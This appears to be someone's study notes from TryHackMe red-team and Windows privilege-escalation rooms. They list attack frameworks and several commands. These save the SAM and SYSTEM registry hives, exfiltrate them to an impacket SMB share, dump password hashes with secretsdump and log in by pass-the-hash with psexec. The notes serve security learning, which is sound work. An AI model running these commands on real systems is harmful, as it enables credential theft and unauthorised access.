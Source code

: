 # XXX

**https://tryhackme.com/room/redteamfundamentals** (done)

* simulate enough [TTPs](https://csrc.nist.gov/glossary/term/Tactics_Techniques_and_Procedures) for the blue team to learn to react
* [redteam.guide](https://redteam.guide/)
* Varonis Cyber Kill Chain 
* Active Directory Attack Cycle 
* MITRE ATT&CK Framework
* Windows CVE: PrintNightmare

**https://tryhackme.com/room/redteamengagements**

* concrete objectives (identify system misconfigurations) and perimeter/scope (ex: no downtime)

N

* PSexec (allow administrators to run commands on remote Windows systems) 

**https://tryhackme.com/room/windowsprivesc20**

* `whoami /priv`
* https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
* https://github.com/gtworek/Priv2Admin
* `backup the SAM and SYSTEM hashes`
  * `reg save hklm\system C:\XXX\system.hive`
  * `reg save hklm\sam C:\XXX\sam.hive`
* `python3 -m pip install impacket` (not working)
* `sudo git clone https://github.com/fortra/impacket /opt/impacket`
* `python3 -m pip install -r requirements.txt`
* pipx
* `python /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 name /tmp/folderr`
* `net view \\IP`: view shares
* `copy file \\IP\share`
* https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
* [impacket](https://github.com/fortra/impacket/tree/master/examples)
* `pip install -r requirements.txt`/`pip install .`
* `python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`
  * Give hashes
  * Pass the hash: `python3.9 /opt/impacket/examples/psexec.py -hashes usernamehash:sessionhash username@IP`

Sofware

* `wmic product get name,version,vendor` (list installed sofware, but may miss some of them)
* https://github.com/itm4n/PrivescCheck
* https://github.com/bitsadmin/wesng (run on host, not target, wes.py --update, save and pass to it systeminfo output, wes.py output.txt)